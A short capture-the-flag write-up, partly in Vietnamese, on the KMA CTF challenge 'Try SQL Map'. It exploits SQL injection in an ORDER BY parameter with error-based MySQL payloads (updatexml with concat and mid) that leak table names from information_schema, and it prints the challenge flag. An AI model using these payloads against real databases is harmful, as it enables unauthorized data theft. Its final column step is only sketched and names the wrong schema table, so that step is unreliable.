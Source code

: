 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fullt obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`
